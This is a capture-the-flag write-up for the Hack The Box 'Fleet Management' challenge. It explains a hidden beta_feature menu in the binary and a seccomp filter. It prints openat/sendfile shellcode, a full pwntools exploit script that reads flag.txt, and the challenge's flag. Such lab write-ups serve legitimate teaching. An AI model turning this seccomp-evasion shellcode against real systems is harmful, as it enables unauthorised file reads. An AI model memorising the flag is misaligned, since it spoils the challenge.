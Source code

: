 # Fleet Management
> Write-up author: jon-brandy
## DESCRIPTION:
Reading through an Underground Intergalactic hacking forum Bonnie stumbles upon a post talking about a backdoor in the Gold Fang’s Spaceship Fleet Management System. 
There is a note about a twist added by the author to prevent anyone from using the backdoor. 
Will Bonnie achieve to gain access to Gold Fang’s internal network and retrieve precious documents?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/01e498a8-ad99-4299-8d88-13f78a1cc1d6)


> BINARY PROTECTIONS

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/2de5a421-f79f-4f92-ae29-8249a21a1476)


2. After decompiled the binary, it looks like there's a hidden menu which calls the **beta_feature()** function.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/1ead0cbe-4f84-4235-ad05-5931745906c3)


3. There's a chance we can do shellcode injection even though the NX are disabled.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c624695a-1467-4a47-88fd-cc9bf0dcaa64)


4. But the problem is, we have `seccomp()`. (`skid_check()`)

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/8e136aaf-b7b8-4b49-9251-7b0c2395b8c6)


5. To be precise what are the seccomp applied, we can run:

```
sudo seccomp-tools dump ./fleet_management
```

6. Then open menu number 9 and input random strings.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f852dc59-3304-43c6-9618-4abd9788615b)


7. The interesting part here, the binary using **openat()** which is more secure than **open()**, it does took me a while to solved this.
8. Since there are seccomp, hence the objective here is to cat the flag rather spawn the shell.
9. To do that we can utilize `sendfile` & `openat`.
10. Here are the asm code we want to inject:

```asm
xor rdx, rdx ; set rdi to 0
push rdx ; push it to the stack
mov rsi, 0x7478742e67616c66 ; stores flag.txt
push rsi ; push it to the stack
mov rsi, rsp ; move what's on the stack to rsi (set filename address to stack address) (need to mov from stack to rsi)
mov rdi, -100 ; set rdi as file descriptor (fd) pointing to AT_FDCWD
mov rax, 257 ; do the sys_openat()
syscall

xor rdi, rdi ; set rdi to 0
xor rdx, rdx ; set rdx to 0
mov rsi, rax ; move rax, rsi (set file descriptor [fd] to openat() result
mov r10, 0x100 ; set length to read the flag.txt
mov rax, 40 ; do the sys_sendfile()
syscall
```

11. Here's the full script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './fleet_management'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

sh.sendlineafter(b'do? ', b'9')

shell = """
xor rdx, rdx
push rdx
mov rsi, 0x7478742e67616c66
push rsi
mov rsi, rsp
mov rdi, -100
mov rax, 257
syscall

xor rdi, rdi
xor rdx, rdx
mov rsi, rax
mov r10, 0x100
mov rax, 40
syscall
"""
shellcode = asm(shell)
sh.sendline(shellcode)

sh.interactive()
```

> RUN SCRIPT REMOTELY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/327249f1-3d5f-41d6-8ab9-c2cf08fd5afd)

12. Got the flag!

## FLAG
```
HTB{sh3llc0d3_45_4_b4ckd00r}
```
